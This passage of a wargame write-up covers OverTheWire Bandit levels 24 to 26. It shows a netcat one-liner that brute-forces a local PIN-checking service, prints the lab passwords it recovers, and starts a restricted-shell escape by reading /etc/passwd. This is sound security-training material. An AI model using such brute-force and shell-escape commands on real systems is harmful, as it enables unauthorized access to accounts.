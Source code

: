 Quick look at the output
```
[...]
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
```

With input ready, use `nc localhost 30002` (pipe) to connect with port 30002.

```console
echo -e UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ\ {0..9}{0..9}{0..9}{0..9}\ '\n' | nc localhost 30002

# OUTPUT
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
[...]
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

Correct credentials are `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2588`

The password of user bandit25 is `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

### Level 25 => 26

> Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

```console
$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```


```console
$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
